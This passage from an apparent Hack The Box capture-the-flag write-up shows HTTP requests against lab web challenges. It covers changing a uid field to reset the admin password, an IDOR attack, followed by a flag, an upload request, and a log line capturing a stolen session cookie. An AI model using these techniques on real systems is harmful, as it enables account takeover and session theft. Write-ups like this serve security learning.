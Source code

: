 ```
POST /api/users/update HTTP/1.1
Host: 138.68.188.223:31801
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://138.68.188.223:31801/settings
Content-Type: application/json
Origin: http://138.68.188.223:31801
Content-Length: 31
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI5OTc4MjJ9.f-LtSis6qZ9KFzsQnGQo93zlZBVKb1yugx7gafHIgg4

{"password":"test","uid":"100"}
```

We can change the `uid` to 1, and now try to login with `admin:test` :

![image](https://user-images.githubusercontent.com/76447395/169412607-fc7b410a-d3be-4601-bc9a-1012b38ea0b4.png)

> HTB{x55_4nd_id0rs_ar3_fun!!}

# BlinkerFluids - Web

In this site we can upload an image :

![image](https://user-images.githubusercontent.com/76447395/169414888-dc46234e-afdb-487b-bb8e-a93861b06e3d.png)

This is the request :

```
POST /api/alphafy HTTP/1.1
Host: 138.68.175.87:32678
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://138.68.175.87:32678/
Content-Type: application/json
Origin: http://138.68.175.87:32678
Content-Length: 39
Connection: close

{"image":"","background":[255,255,255]}
```

# Genesis Wallet - Web

Genesis Wallet is a web application that manages crypto transactions :


[404]: GET /?session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI5OTQ3MjB9._8UOKz7Q-h_B-76B17ncFPA3g9qTh4RMmy0H4qnZcW0 - 